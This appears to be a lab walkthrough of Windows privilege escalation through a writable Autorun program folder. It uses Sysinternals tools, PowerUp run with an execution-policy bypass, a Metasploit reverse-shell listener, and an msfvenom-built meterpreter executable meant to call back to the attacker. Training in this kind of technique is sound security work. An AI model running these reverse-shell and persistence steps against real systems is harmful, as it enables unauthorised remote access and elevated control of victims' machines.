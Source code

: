 
### AutoRun

Using a sysinternals tool, autoruns.exe, we can take a look at a lot of different items.

In this one, when we run it, we're looking at the very top, in the Run folder, we see something called "My Program".

![[Pasted image 20241021232955.png]]

It's located in the listed folder.

We can then use another sysinternals tool, accesschk64.exe, to see what accesses we have.  We utilize cmd for this one with the following command.

**C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"**
	-wvu   this is for show only items that have write access (-w), verbose output, and suppress errors (-u).
We get the following output.

![[2024-10-21 23_45_37-Window.png]]

We can see that everyone has FILE_ALL_ACCESS.

Another way to accomplish this is to use a tool called PowerUp.  Its a powershell script.  You can run it using the following

![[2024-10-21 23_59_19-Window.png]]

You have to run the `powershell -ep bypass` to get it to run correctly.  This will start to spit out a bunch of info.  But here we also find similiar to what we found before.

![[Pasted image 20241022000642.png]]

Find that out and start up `msfconsole` and use the following.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => 10.6.x.x
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.6.x.x:4444 
```

This will get our handler going.  Then we need to open msfvenom and create a program to start that connection in a new tab.

```
(kali㉿kali)-$ msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 -f exe -o program.exe                           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```
